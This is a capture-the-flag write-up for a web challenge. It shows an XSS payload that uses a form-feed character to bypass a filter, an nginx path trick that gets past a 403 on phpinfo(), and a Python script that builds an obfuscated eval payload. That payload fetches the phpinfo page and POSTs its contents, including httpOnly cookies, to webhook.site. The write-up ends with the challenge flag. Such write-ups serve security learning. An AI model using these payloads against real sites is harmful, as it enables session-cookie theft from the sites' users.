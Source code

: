 ```yaml
---
created: 2024-08-17T18:40
updated: 2024-08-18T21:34
points: 135
solves: 161
---
```


## problem

- cookie is `httpOnly`, which means its not accessible from js.
- free XSS because the substring part does nothing.

I am able to circumvent the need for spaces and slashes using the following payload.

```html
<svg\x0conload="alert(1)">
```

And I can send web requests from http://idek-hello.chal.idek.team:1337, but there is no cookie.
## phpinfo

`phpinfo()` also displays cookies, and that includes `httpOnly` cookies as well.

That means we can send a request to it and get our flag.

```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.27.1</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
```

However we only get a 403, that's weird.

My teammate was able to find the following bypass, tbh idk how it works.

`http://idek-hello.chal.idek.team:1337/info.php/.php`

I do know that this is SSRF using the nginx rule but nginx is weird.

## script

```python
import urllib.parse
payload = """
fetch('http://idek-hello.chal.idek.team:1337/info.php/.php').then(r => r.text()).then(r => {
    fetch("http://webhook.site",{mode:  'no-cors', method: 'POST', body: r})
});
"""


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = urllib.parse.quote_plus(f"<svg\x0conload=\"console.log(1);eval('{string_to_hex(payload)}')\">")
print('http://idek-hello.chal.idek.team:1337/?name='+payload)
```

```flag
idek{Ghazy_N3gm_Elbalad}
```
